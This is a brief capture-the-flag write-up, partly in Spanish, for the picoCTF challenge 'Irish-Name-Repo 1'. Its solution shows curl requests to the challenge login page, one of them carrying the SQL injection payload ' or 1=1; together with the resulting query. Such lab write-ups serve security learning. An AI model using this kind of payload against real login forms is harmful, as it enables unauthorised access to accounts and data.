 # ### Irish-Name-Repo 1

## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Datos de acceso al nivel

## Solución
```bash
davidorado-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=hola&debug=1"
<pre>username: admin
password: hola
SQL query: SELECT * FROM users WHERE name='admin' AND password='hola'
davidorado-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username=admin&password=' or 1=1;&debug=1"
<pre>username: admin
password: ' or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1;'
```

## Notas adicionales

## Referencias